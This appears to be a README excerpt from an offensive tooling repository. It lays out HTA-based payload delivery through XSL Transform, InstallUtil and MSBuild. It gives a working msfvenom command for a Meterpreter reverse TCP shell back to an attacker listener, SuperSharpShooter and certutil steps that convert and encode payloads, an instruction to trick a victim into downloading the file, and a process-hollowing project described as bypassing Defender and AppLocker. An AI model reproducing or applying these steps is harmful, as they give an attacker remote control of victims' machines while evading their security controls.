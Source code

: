 ### <ins>XSL Transform (template.hta)</ins>

- Create shellcode using msfvenom: `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 -f raw -o output/shell.txt` 
- Convert to JS using SuperSharpShooter: `python3 SuperSharpShooter.py --payload js --dotnetver 4 --stageless --rawscfile shell.txt --output test` 
- Embed the JS content inside the `template.xsl` template file. 

### <ins>InstallUtil (installutil-template.hta)</ins>
- Compile C# executable that uses Custom Powershell Runspace.
- Convert the outputted EXE to txt using certutil: `certutil -encode clm-bypass.exe file.txt`
- Use the InstallUtil template to trick the victim to download the file.txt file and let the magic happen.

### <ins>MSBuild (msbuild.hta)</ins>
- Use the filw at CLM-Bypass/MSBuild/procHollow.csproj. (Bypass defender and Applocker defautlt rules)
